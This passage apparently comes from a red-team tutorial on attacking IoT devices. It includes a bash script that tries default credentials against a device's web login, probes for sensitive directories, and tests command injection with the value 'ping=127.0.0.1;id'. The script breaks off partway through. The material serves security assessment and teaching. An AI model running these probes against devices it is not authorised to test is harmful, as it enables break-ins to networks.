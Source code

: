 > **RED TEAM TIP:**
>
> When discovering IoT devices, pay special attention to the "forgotten" devices—those installed for specific projects or temporary purposes that were never properly decommissioned. These often retain default credentials and outdated firmware, making them perfect entry points to otherwise secure networks.

## Specialized IoT Attack Strategies

Beyond the core tools covered, several specialized techniques are valuable for comprehensive IoT security assessment. This section covers targeted approaches for specific IoT attack scenarios.

### Attacking IoT Web Interfaces

Many IoT devices expose web interfaces that have common vulnerabilities:

```bash
# Create a script targeting common IoT web vulnerabilities
cat > iot_web_check.sh << 'EOF'
#!/bin/bash
# IoT Web Interface Vulnerability Scanner

TARGET=$1
OUTPUT_DIR="iot_web_scan_$(date +%Y%m%d_%H%M%S)"

if [ -z "$TARGET" ]; then
  echo "Usage: $0 https://device-ip"
  exit 1
fi

mkdir -p $OUTPUT_DIR

echo "[+] Scanning IoT web interface at $TARGET"

# Check for default credentials
echo "[+] Testing default credentials..."
for creds in "admin:admin" "admin:password" "admin:1234" "root:root" "user:user"; do
  username=$(echo $creds | cut -d':' -f1)
  password=$(echo $creds | cut -d':' -f2)
  
  status=$(curl -s -o /dev/null -w "%{http_code}" -u "$username:$password" $TARGET)
  if [ $status -eq 200 ] || [ $status -eq 302 ]; then
    echo "[!] Successful authentication with $username:$password"
    echo "$TARGET: $username:$password" >> $OUTPUT_DIR/valid_credentials.txt
  fi
done

# Check for common directories
echo "[+] Checking for sensitive directories..."
for dir in "cgi-bin" "admin" "management" "config" "backup" "system" "debug" "dev" "status" "firmware"; do
  status=$(curl -s -o /dev/null -w "%{http_code}" $TARGET/$dir/)
  if [ $status -eq 200 ] || [ $status -eq 401 ] || [ $status -eq 403 ]; then
    echo "[!] Found directory: $TARGET/$dir/ ($status)"
    echo "$TARGET/$dir/: $status" >> $OUTPUT_DIR/directories.txt
  fi
done

# Check for common vulnerabilities
echo "[+] Testing for common IoT web vulnerabilities..."

# Command injection test
echo "[+] Testing for command injection..."
cmd_inj_result=$(curl -s "$TARGET/ping.cgi?ping=127.0.0.1;id" | grep -i "uid=")
```